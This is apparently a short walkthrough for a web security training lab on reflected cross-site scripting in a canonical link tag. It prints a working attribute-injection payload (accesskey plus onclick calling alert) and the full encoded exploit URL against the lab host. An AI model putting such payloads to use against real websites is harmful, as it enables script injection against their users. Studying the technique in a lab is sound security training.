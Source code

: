 Title: Reflected XSS in canonical link tag
Level: PRACTITIONER
Desc:  This lab reflects user input in a canonical link tag and escapes angle brackets.
To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.
To assist with your exploit, you can assume that the simulated user will press the following key combinations:
    ALT+SHIFT+X
    CTRL+ALT+X
    Alt+X
Please note that the intended solution to this lab is only possible in Chrome. 

# Walkthrough:
<img width="1128" height="265" alt="image" src="https://github.com/user-attachments/assets/929b004d-1119-4de1-afb2-1a086b0eecbe" />

`<link rel="canonical" href='https://0ac5000c03c6cce280550d91009a00ce.web-security-academy.net/?'accesskey='x'onclick='alert(1)'/>`
the payload: `?'accesskey='x'onclick='alert(1)`

url: `https://0ac5000c03c6cce280550d91009a00ce.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`\
run this exploit by using CTRL+SHIFT+X in the browser.

